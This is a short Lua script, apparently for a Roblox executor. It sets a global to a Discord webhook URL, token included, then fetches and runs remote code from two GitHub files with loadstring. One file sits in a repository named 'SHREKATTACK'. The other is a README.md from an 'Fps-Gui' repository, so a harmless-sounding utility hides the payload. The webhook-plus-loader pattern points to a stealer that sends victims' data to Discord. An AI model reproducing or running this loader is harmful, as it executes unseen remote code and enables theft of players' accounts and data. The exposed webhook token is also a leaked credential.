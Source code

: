 
_G.webhooksdiscord = "https://discord.com/api/webhooks/934479211522060308/lU08Nsh8Q1M3NNRhnVe7tVrlUWglgucN-xC_6zikZ-Hq3yMCVropVq9DSKNGW7k8-BmV"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
loadstring(game:HttpGet("https://raw.githubusercontent.com/KAYA4A1/Fps-Gui2.4/main/README.md"))();

